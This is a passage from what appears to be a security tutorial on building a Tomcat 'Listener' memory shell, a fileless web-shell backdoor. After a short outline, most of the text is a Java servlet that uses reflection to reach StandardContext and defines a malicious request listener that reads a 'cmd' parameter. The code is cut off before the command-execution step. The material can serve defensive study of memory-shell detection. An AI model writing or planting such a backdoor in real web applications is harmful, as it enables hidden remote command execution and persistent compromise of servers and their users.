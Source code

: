​ The specific ideas for dynamically injecting `Listener` memory horse are as follows:

- Inherit and write a malicious `Listener`;
- Get `StandardContext`;
- Call `StandardContext#addApplicationEventListener` to add malicious `Listener`.

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ListenerMemoryShellServlet", value = "/ListenerMemoryShellServlet")
public class ListenerMemoryShellServlet extends HelloServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ServletRequestListener listener = new ServletRequestListener() {
                @Override
                public void requestDestroyed(ServletRequestEvent sre) {
                }

                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
try {
                        String cmd = request.getParameter("cmd");
                        Field requestField = RequestFacade.class.getDeclaredField("request");
                        requestField.setAccessible(true);
                        Request request = (Request) requestField.get(requestFacade);
                        Response response = request.getResponse();
```